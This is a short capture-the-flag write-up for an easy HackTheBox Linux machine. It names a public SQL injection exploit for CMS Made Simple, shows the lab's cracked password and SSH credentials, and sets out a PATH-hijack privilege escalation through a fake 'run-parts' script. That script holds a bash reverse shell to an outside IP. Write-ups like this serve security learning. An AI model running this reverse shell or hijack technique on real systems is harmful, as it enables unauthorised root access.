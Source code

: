 # Writeup - HackTheBox
## Linux - Easy

### SQLi on CMS
Use SQLi exploit to get creds (CMS Made Simple < 2.2.10 - SQL Injection, CVE 2019-9053, 46635.py in searchsploit).
Get
```python
hash = '62def4866937f08cc13bab43bb14e6f7' #md5 hash
salt = '5a599ef579066807'
```
for user jkr.

### Crack hash
Running through rockyou.txt gives the password: `raykayjay9`.
This gives the ssh creds `jkr:raykayjay9`.

### PrivEsc
Running pspy64, we see that each time there is a new ssh connection, 
```bash
sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
```
is run by root. The binary `run-parts` is in `/bin`. As a member of the group `staff`, we (jkr) can write in `/usr/local/bin`, which comes before `/bin` in the PATH. So we put a reverse shell in this folder called `run-parts`:
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.15.250/9001 0>&1
```
make it executable, and connect by ssh from another terminal, and we get root!
